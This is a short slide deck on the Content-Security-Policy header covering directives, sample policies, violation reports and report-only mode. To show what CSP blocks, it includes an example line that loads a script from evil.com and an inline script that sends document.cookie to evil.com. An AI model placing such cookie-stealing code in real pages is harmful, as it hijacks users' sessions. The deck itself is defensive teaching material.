 # Content Security Policy

Adam Beres-Deak

--

> The new Content-Security-Policy HTTP response header helps you reduce XSS risks on modern browsers by declaring what dynamic resources are allowed to load via a HTTP Header.

--

# How it works

```
Content-Security-Policy: <policy-directive>; <policy-directive>
```

OR

```html
<meta http-equiv="Content-Security-Policy"
	  content="<policy-directive>; <policy-directive>">
```

--

### Restrict script source origins

```http
Content-Security-Policy: script-src 'self' ajax.googleapis.com
```

```html
<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script src="/js/app.js"></script>
<script src="http://evil.com/pwnage.js"></script>
```

```
Refused to load the script 'http://evil.com/pwnage.js'
because it violates the following
Content Security Policy directive: "script-src 'self' ajax.googleapis.com".
```

--

### Restrict inline scripts

```http
Content-Security-Policy: script-src 'self' ajax.googleapis.com
```

```html
<script>
	new Image('http://evil.com/?cookie=' + document.cookie);
</script>
```

```
Refused to execute inline script because
it violates the following Content Security Policy
directive: "script-src 'self' ajax.googleapis.com"
```

--

# Not just for scripts

- img-src – limit origins of images
- style-src – stylesheets
- media-src – audio and video
- frame-src – iframe sources
- connect-src – XHR, WebSockets, EventSource
- font-src – font files
- object-src - Flash and other plugin objects
- default-src – all assets (including scripts), fallback

--

# Examples

--

Starter Policy
```
default-src 'none'; script-src 'self'; connect-src 'self'; \
img-src 'self'; style-src 'self';
```

Allow everything but only from the same origin
```
default-src 'self';
```

Only Allow Scripts from the same origin
```
script-src 'self';
```

Allow Google Analytics, Google AJAX CDN and Same Origin
```
script-src 'self' www.google-analytics.com ajax.googleapis.com;
```


--

# Violation reports

```
Content-Security-Policy: default-src https:; report-uri /csp-violation
```

```json
{
  "csp-report": {
    "document-uri": "https://example.com/signup.html",
    "referrer": "",
    "blocked-uri": "http://example.com/css/style.css",
    "violated-directive": "default-src https:",
    "original-policy": "default-src https:; report-uri /csp-violation",
    "disposition": "report"
  }
}
```

--

# Testing

--

## Report Only mode

Directives are monitored but not enforeced.

```
Content-Security-Policy-Report-Only:
	default-src https:; report-uri /csp-violation-report
```

--

# Browser support

- over 90%
- All modern browsers support it + IE11 with `X-Content-Security-Policy` header.

--

# Resources

- https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
- https://content-security-policy.com/
- http://benvinegar.github.io/csp-talk-2013/